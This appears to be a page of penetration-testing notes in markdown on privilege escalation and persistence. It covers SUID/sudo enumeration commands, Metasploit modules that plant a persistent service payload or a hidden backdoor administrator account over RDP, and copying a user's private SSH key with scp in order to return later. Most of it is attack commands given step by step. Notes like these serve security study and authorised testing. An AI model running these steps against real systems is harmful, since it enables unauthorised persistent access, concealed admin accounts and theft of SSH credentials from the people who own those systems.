   ### SUDO Privileges
  - https://gtfobins.github.io/
  - sudo -l
  - find suid permissions: find / -perm -u=s -type f 2>/dev/null
  
  ## Establishing Persistence on windows
  ### Persistence via Services
  - metasploit
    - search persistence_service (requires system or administrative privs.)
    - specify the LPORT, SESSION and FIRE! :) 
    - This module will generate a payload, upload it to the target and make it persistent via a service
    - when quitting the session and you want to reconnect to the target, remember to setup a multi/handler listener with the exact same payload specified and the LPORT specified.
  
  ### Persistence Via RDP
  - when exploited, we can create a backdoor user account
  - metasploit
    - "run getgui -e -u felix -p abc123_321"
    - This command will do the following:
      - See if RDP is enabled, if not, it will enable it (and set it to startup mode)
      - Create a new user (the one we've specified)
      - Add the User to the RDP Users
      - Add the User to Administrator Group
      - Hide the User from logon screen
      - Open Neccessary Firewall Ports
  - we can user xfreerdp to connecto to the target
    - xfreerdp /u:felix /p:abc123_312 /v:x.x.x.x
    
    
    ## Linux Persistence
    ### Persistence via SSH Keys
    - Linux Servers are typically accessed via ssh
    - In most cases, Linux servers will have key-based authentication enabled and we can use that key to access thy system.
    - Even if the user-account password is changed and you have the private key, you'll still be able to logon.
    - in the users home folder there is a .ssh folder. Here are the keys stored. We'll need to copy the private key.
    - For this, we can use scp. From the source machine, establish a connection: "scp felix@x.x.x.x:~/.ssh/id_rsa ."
    - If done, we can use the following ssh command to connect back with a certificate
      - ssh -i id_rsa felix@x.x.x.x
    - You'll maybe need to adjust the permissions if they are too open (for example to 600 -> chmod 600 id_rsa)
  
  
    - Typically, you would create a keypair and upload the public key to the target and keep the private key on the hackers machine.
    